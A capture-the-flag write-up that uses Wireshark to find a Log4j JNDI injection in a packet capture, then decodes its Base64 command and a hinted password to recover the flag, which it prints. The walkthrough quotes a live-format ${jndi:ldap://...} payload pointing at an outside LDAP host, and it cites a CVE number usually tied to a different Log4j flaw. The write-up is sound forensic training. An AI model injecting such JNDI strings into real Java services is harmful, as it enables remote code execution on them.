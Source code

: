 # Log4jVulnAttack | Difficulty: Medium

## Requirements:

- Anaylzing PCAP file using software like Wireshark
- Base understanding about Log4J CVE-2021-45105 and how attacks are done

---

## Steps:

1.  Open `packets.pcap` using any packet analysis software you want. I will be using `Wireshark`.
2.  Identify that a potential Log4J attack might have occured.

    You can determine by searching for any packets using the `LDAP` protocol or whether any IPs contains the word `jndi` in them.

    ![LDAP search](Guide-Media/2022-05-16%2018-29-17.png)
    ![jdni search](Guide-Media/2022-05-16%2018-29-50.png)

3.  There is a very suspicious `HTTP` packet found from the second search.

    From our search for whether any IP contains jndi, we noticed a suspicious packet.\
    Let us examine this packet further.

    You can right-click on the packet in `Wireshark` and select the option: `Follow -> HTTP Stream`.

    ![Follow stream](Guide-Media/2022-05-16%2018-33-57.png)

    From this we can extract two pieces of information:

    ```
    # FIRST INFORMATION
    ${jndi:ldap://52.221.178.168:389/Basic/Command/Base64/ZWNobyAnVTJGc2RHVmtYMThwTjlQZzBKemIzMnM3VGhYUTQycVJmQ1dVTkpPbFhpdnk1UTFITk9OdFFBMzBpbituU0JrTycgfCBvcGVuc3NsIGFlcy0yNTYtY2JjIC1hIC1kIC1zYWx0}
    ```

    ```
    # SECOND INFORMATION
    I wonder what this is: aV9saWtlX3RoaXNfa2V5  Maybe its a password OR an 3Nc0d3d one...
    ```

4.  Decode the `Base64` string found in the first info.

    There appears to be a Base64 Command in the first info we have:

    ${jndi:ldap://52.221.178.168:389/Basic/Command/**Base64**/`ZWNobyAnVTJGc2RHVmtYMThwTjlQZzBKemIzMnM3VGhYUTQycVJmQ1dVTkpPbFhpdnk1UTFITk9OdFFBMzBpbituU0JrTycgfCBvcGVuc3NsIGFlcy0yNTYtY2JjIC1hIC1kIC1zYWx0`}

    Let decode this into `UTF-8` (text):

    ```
    ZWNobyAnVTJGc2RHVmtYMThwTjlQZzBKemIzMnM3VGhYUTQycVJmQ1dVTkpPbFhpdnk1UTFITk9OdFFBMzBpbituU0JrTycgfCBvcGVuc3NsIGFlcy0yNTYtY2JjIC1hIC1kIC1zYWx0
    ```

    Using any decoder you wish, it will decode to:

    ```bash
    echo 'U2FsdGVkX18pN9Pg0Jzb32s7ThXQ42qRfCWUNJOlXivy5Q1HNONtQA30in+nSBkO' | openssl aes-256-cbc -a -d -salt
    ```

    Let us try running this command in our terminal and seeing what happens:

    ![Trying command](Guide-Media/2022-05-16%2018-39-28.png)

    It seems to require a password. Perhaps this is what the second piece of info is for.

5.  Examine the second info.

    ```
    I wonder what this is: aV9saWtlX3RoaXNfa2V5  Maybe its a password OR an 3Nc0d3d one...
    ```

    It is prompting us that the string `aV9saWtlX3RoaXNfa2V5` is either the password or connected to it somehow.

    First let us try using it as the password for the earlier command:

    ![Trying-Decrypt](Guide-Media/2022-05-16%2018-42-21.png)

    It lead to a bad decrypt which means that it isn't the password directly.\
    The message also hinted to us that it might have been `encoded` (3Nc0d3d).

    You can try decoding it using many different forms of encoding but let us try decoding it as `base64` and seeing the result:

    ```
    aV9saWtlX3RoaXNfa2V5
    ```

    Using any decoder you wish, results in:

    ```
    i_like_this_key
    ```

    Let us try using this new string: `i_like_this_key` as the password for the earlier command:

    ![Success-Decrypt](Guide-Media/2022-05-16%2018-47-09.png)

    Success! We have found the flag.

         flag@log4j_vuln_is_crazy

